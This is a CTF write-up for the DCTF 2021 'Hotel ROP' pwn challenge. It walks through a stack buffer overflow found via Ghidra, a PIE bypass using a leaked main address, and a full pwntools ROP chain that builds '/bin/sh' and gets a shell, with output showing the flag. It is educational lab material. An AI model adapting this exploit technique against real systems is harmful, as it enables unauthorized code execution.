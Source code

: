 # DCTF 2021

## Hotel ROP

> 400
> 
> They say programmers' dream is California. And because they need somewhere to stay, we've built a hotel!
> 
> `nc dctf1-chall-hotel-rop.westeurope.azurecontainer.io 7480`
>
> [hotel\_rop](hotel_rop)

Tags: _pwn_ _x86-64_ _bof_ _rop_


## Summary

Intended solution for BOF/ROP challenge with batteries included (no need for _ret2libc_)--some assembly required (not [_that_](https://en.wikipedia.org/wiki/Shellcode) kind of assembly).




## Analysis

### Checksec

```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

No canary--BOF.  PIE enabled, but useless since the location of `main` is leaked from the start--ROP.


### Decompile with Ghidra

```c
void vuln(void)
{
  char local_28 [28];
  int local_c;
  
  puts("You come here often?");
  fgets(local_28,0x100,stdin);
  if (local_c == 0) {
    puts("Oh! You are already a regular visitor!");
  }
  else {
    puts("I think you should come here more often.");
  }
  return;
}
```

`fgets` will _get_ `0x100` (256) bytes into a `28` byte buffer smashing the stack.

There are various ways to win here, but I went with the intended solution:

```c
void loss(int param_1,int param_2)
{
  if (param_2 + param_1 == 0xdeadc0de) {
    puts("Dis is da wae to be one of our finest guests!");
    if (param_1 == 0x1337c0de) {
      puts("Now you can replace our manager!");
      system((char *)&win_land);
      exit(0);
    }
  }
  return;
}
```

There's a `win` function here called `loss` that will execute `system` with the global `win_land`.  However, `win_land` is all null, the two functions `california` and `silicon_valley` fill that void:

```
void california(void)
{
  puts("Welcome to Hotel California");
  puts("You can sign out anytime you want, but you can never leave");
  *(undefined *)((long)&win_land + (long)len) = 0x2f;
  len = len + 1;
  *(undefined *)((long)&win_land + (long)len) = 0x62;
  len = len + 1;
  *(undefined *)((long)&win_land + (long)len) = 0x69;
  len = len + 1;
  *(undefined *)((long)&win_land + (long)len) = 0x6e;
  len = len + 1;
  return;
}

void silicon_valley(void)
{
  puts("You want to work for Google?");
  *(undefined *)((long)&win_land + (long)len) = 0x2f;
  len = len + 1;
  *(undefined *)((long)&win_land + (long)len) = 0x73;
  len = len + 1;
  *(undefined *)((long)&win_land + (long)len) = 0x68;
  len = len + 1;
  *(undefined *)((long)&win_land + (long)len) = 0;
  len = len + 1;
  return;
}
```

Kinda all down hill from here.


## Exploit

```python
#!/usr/bin/env python3

from pwn import *

binary = context.binary = ELF('./hotel_rop')

if args.REMOTE:
    p = remote('dctf1-chall-hotel-rop.westeurope.azurecontainer.io', 7480)
else:
    p = process(binary.path)

p.recvuntil('on main street ')
main = int(p.recvline().strip(),16)
log.info('main: ' + hex(main))
binary.address = main - binary.sym.main
log.info('binary.address: ' + hex(binary.address))
```

As stated above, we get the location of `main` for free, with this we can compute the base process address which is required for ROP.

```python
pop_rdi = next(binary.search(asm('pop rdi; ret')))
pop_rsi_r15 = next(binary.search(asm('pop rsi; pop r15; ret')))
```

`loss` requires two parameters; we'll need `pop rdi` and `pop rsi` gadgets.  Since `pop rsi` is followed by `pop r15`, we'll have to provide a dummy value.

```python
payload  = b''
payload += 0x28 * b'A'
payload += p64(binary.sym.california)
payload += p64(binary.sym.silicon_valley)
payload += p64(pop_rdi)
payload += p64(0x1337c0de)
payload += p64(pop_rsi_r15)
payload += p64(0xdeadc0de - 0x1337c0de)
payload += p64(0)
payload += p64(binary.sym.loss)

p.sendlineafter('?\n',payload)
p.interactive()
```

And here's the chain.  Start with the two helper functions to set `win_land`, then pop into `rdi` and `rsi` the values for `param1` and `param2` (with a zero for `r15`) then call `loss` FTW!


[_You can_ win for losing](https://www.urbandictionary.com/define.php?term=can%27t%20win%20for%20losing).


Output:

```bash
# ./exploit.py REMOTE=1
[*] '/pwd/datajerk/dctf2021/hotel_rop/hotel_rop'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to dctf1-chall-hotel-rop.westeurope.azurecontainer.io on port 7480: Done
[*] main: 0x5650b58f536d
[*] binary.address: 0x5650b58f4000
[*] Switching to interactive mode
I think you should come here more often.
Welcome to Hotel California
You can sign out anytime you want, but you can never leave
You want to work for Google?
Dis is da wae to be one of our finest guests!
Now you can replace our manager!
$ cat flag.txt
dctf{ch41n_0f_h0t3ls}
```
